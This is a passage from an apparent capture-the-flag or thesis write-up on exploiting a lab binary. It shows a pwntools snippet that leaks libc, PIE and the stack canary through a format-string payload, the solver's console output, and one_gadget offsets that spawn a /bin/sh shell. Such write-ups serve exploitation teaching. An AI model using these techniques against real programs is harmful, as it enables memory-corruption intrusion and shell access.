 ### Canary 🐦

`Canary` is just leaked as it is.

```python
# Leak libc, PIE and canary
r.sendlineafter(prompt, "%3$p %46$p %47$p")
libc_addr, pie_addr, canary = r.recvline().split()

# Calculate libc base from leaked function
libc.address = int(libc_addr, 16) - 0x110151
e.address    = int(pie_addr, 16) - (int(pie_addr, 16) & 0xfff)
canary = int(canary, 16)
print(colored("[+] Libc base @ " + str(hex(libc.address))))
print(colored("[+] PIE base  @ " + str(hex(e.address))))
print(colored("[+] Canary    @ " + str(hex(canary))))
```

```console
➜  challenge git:(main) ✗ python solver.py 
[*] '/home/w3th4nds/github/Thesis/challenge8/challenge/challenge8'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './challenge8'
[*] '/home/w3th4nds/github/Thesis/challenge8/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 328
[+] Libc base @ 0x7f6c67f43000
[+] PIE base  @ 0x55a32e8a1000
[+] Canary    @ 0x180dce4f11982c00
```

Now that we have everything we need, we just perform a `one_gadget` attack.
### **One gadget** 💎

[one_gadget](https://github.com/david942j/one_gadget) is actually an offset to `execve("/bin/sh")`. After we have leaked `libc base`, we can just add these offsets to it and spawn shell.

```console
➜  challenge9 git:(main) ✗ one_gadget ./challenge/libc.so.6 
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
